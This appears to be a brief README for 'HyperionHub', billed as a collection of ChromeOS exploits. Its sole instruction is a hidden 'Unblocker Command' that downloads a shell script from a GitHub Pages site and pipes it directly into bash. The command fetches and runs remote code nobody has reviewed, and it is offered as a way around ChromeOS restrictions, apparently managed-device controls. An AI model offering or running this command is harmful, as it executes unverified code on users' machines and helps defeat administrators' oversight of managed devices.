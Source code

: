 ### HyperionHub

## A Group of CrOS Exploits


<details closed>
<summary>Unblocker Command</summary>
<br>
  <code>curl -Ls elliothegamer2.github.io/HyperionHub/ModdedPollen.sh | bash</code>
</details>
